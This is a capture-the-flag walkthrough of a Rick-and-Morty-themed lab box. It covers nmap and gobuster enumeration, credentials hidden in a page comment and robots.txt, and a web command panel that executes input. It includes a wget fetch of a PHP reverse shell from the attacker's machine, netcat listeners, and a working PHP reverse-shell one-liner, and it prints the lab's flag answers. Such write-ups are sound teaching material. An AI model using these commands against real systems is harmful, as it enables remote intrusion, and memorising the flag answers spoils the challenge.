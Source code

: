 
#ctf #dirbuster #Linux 

---

Performing an `nmap` scan to identify open ports and services:

```shell
└─$ nmap -sC -sV 10.10.244.104 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-16 18:40 EST
Nmap scan report for 10.10.244.104
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8f:eb:a5:6c:d0:eb:d6:74:03:c4:ac:29:68:be:5f:60 (RSA)
|   256 0e:f3:7f:77:38:5a:69:cf:c6:4c:fd:12:d1:cb:58:96 (ECDSA)
|_  256 c0:d5:b1:57:6f:f3:07:0d:5f:af:cc:f3:a7:f3:7e:a6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.71 seconds
```


Opening the IP address and inspecting the page code:

![](./screenshots/rick-1.png)

> We see the username : `R1ckRul3s` as a comment.
> We see that there is a directory called `/assets`.

Opening `/assets` to view its contents:

![](./screenshots/rick-2.png)

Now I'll enumerate all directories using `gobuster`:

``` shell
└─$ gobuster dir -u http://10.10.244.104 -w /usr/share/wordlists/dirb/common.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 292]
/.hta.php             (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/assets               (Status: 301) [Size: 315] [--> http://10.10.244.104/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 301]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================

```

Opening `robots.txt` we see this string: `Wubbalubbadubdub`.

Heading to the `login.php` page, we use the username given above as a comment `R1ckRul3s` and the password found in the `robots.txt` `Wubbalubbadubdub`
.

![](./screenshots/rick-3.png)


The credentials work, and we are greeted with this new directory `/portal.php`.

![](./screenshots/rick-4.png)

Cheking the source code for this page: 

```HTML
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
</head>
<body>
  <nav class="navbar navbar-inverse">
    <div class="container">
      <div class="navbar-header">
        <a class="navbar-brand" href="#">Rick Portal</a>
      </div>
      <ul class="nav navbar-nav">
        <li class="active"><a href="#">Commands</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Creatures</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Beth Clone Notes</a></li>
      </ul>
    </div>
  </nav>

  <div class="container">
    <form name="input" action="" method="post">
      <h3>Command Panel</h3></br>
      <input type="text" class="form-control" name="command" placeholder="Commands"/></br>
      <input type="submit" value="Execute" class="btn btn-success" name="sub"/>
    </form>
        <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
  </div>
</body>
</html>
```

1. We see that all the other tabs redirect us to `/denied.php`: 
2. We see in the form that we can execute commands.
3. We see a comment near the end that has some encoded data.

1. 

![](./screenshots/rick-5.png)

2. 
> We see that we can execute commands in the commands tab. The commands we enter as text are uploaded using HTTP `POST` method. The input we enter is also executed using `Execute`.

![](./screenshots/rick-.png)

Typing `ls` command to view all files in the directory, we see all the files we found before except for `clue.txt` and `Sup3rS3cretPickl3Ingred.txt`.

> Using `cat Sup3rS3cretPickl3Ingred.txt` to view the first flag doesnt't work. The same goes for `cat clue.txt`.

![](./screenshots/rick-6.png)

Trying multiple different ways to open files:
* `more`
* `nano`
* `tail`
* `head`
* `less` WORKS!

![](./screenshots/rick-7.png)

###### What is the first ingredient that Rick needs? : `mr. meesek hair`.

> Opening the `clue.txt` file:

![](./screenshots/rick-8.png)

3. The comment at the end of the source code has some encoded data:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

This looks like base64 encoding. Decoding it from base64 4 times gives us this:
`WTIxR2FWbHRiREJKUjJoMllrZFZQUT09`. Nothing useful.


Now, we try and look for the second ingredient by following the clue in `clue.txt`. To challenge myself, I tried to upload a shell, but that failed.

---

##### Failed trial:

1. Got the `php-reverse-shell.php` file from `/usr/share/webshells` and changed the IP address to my local machine IP.
2. Opened a python server in the directory with the shell file i changed above in step 1: `python -m http.server 80`.
3. Went to the command panel on `/portal.php` and fetched the file using `wget`: `wget http://10.2.73.192:80/php-reverse-shell.php`. The file indeed got fetched:

![](./screenshots/rick-9.png)

4. After that, I headed to the `/assets` directory where I assumed it would be uploaded, but I didnt find it. If it had been found, I would open it and open a netcat listener on my local machine:
```
nc -nlvp 1234
```

---

So instead of uploading a shell to the server, why don't I connect to my machine from the server itself using a simple PHP one-liner shell.

First, we setup a netcat listener on port 4242 on the local machine and await for connections:

```
nc -nlvp 4242
```

Then paste this command in the `/portal.php` command input:

```php
php -r '$sock=fsockopen("10.2.73.192",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
> This IP address is that of my local machine that I'm attacking from.

We should get a connection once we execute the command on our local machine:

![](./screenshots/rick-10.png)

Now we can cruise through the files and find our flags.

![](./screenshots/rick-11.png)

###### What is the second ingredient in Rick’s potion?: `1 jerry tear`.

Then trying to head to the root directory of the system to get the final flag:

![](./screenshots/rick-12.png)

We get the final flag.

###### What is the last and final ingredient?: `fleeb juice`.

---
